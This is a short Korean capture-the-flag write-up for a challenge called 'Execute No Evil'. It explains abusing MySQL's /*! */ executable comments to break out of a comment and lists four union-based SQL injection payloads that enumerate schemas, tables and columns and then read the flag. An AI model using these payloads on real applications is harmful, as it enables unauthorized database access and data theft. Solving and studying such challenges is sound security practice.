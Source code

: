 # Execute No Evil
주석 탈출문제. mysql에서 `/*! */` 안의 내용을 실행할 수 있는 점을 이용하여 공격 가능.


```
! 0 union select 1,2,schema_name from information_schema.schemata union select 1,2,
```

```
! 0 union select 1,2,table_name from information_schema.tables where table_schema="ctf" union select 1,2,
```

```
! 0 union select 1,2,column_name from information_schema.columns where table_name="flag" union select 1,2,
```

```
! 0 union select 1,2,whatsthis from flag union select 1,2,
```